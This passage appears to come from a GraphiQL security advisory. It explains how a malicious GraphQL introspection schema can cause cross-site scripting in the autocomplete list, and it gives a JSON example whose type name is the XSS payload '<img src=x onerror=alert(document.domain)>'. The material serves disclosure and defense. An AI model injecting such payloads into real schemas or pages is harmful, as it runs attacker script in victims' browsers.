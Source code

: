## 3. Compromised introspection Schema Example

You can view the code for the exploited schema
[on codesandbox](https://codesandbox.io/s/graphql-xss-compromised-schema-3wdq7?file=/src/bad-schema.js)
or [in the repository](../../packages/graphiql/test/bad-schema.js)

As you can see, the introspection schema must contain items with a compromised
`name` value. this could be fields, input object names, enum names, variable
names, etc any graphql
[NamedType](https://github.com/graphql/graphql-spec/blob/main/spec/Section%202%20--%20Language.md#type-references)
in the schema with it's name rendered in the autocomplete list.

```json
{
  "kind": "OBJECT",
  "name": "<img src=x onerror=alert(document.domain)>",
  "description": null,
  "fields": [
    {
      "name": "name",
      "description": null,
      "args": [],
      "type": {
        "kind": "NON_NULL",
        "name": null,
        "ofType": {
          "kind": "SCALAR",
          "name": "String",
          "ofType": null
        }
      },
      "isDeprecated": false,
      "deprecationReason": null
    }
  ],
  "inputFields": null,
  "interfaces": [],
  "enumValues": null,
  "possibleTypes": null
}
```
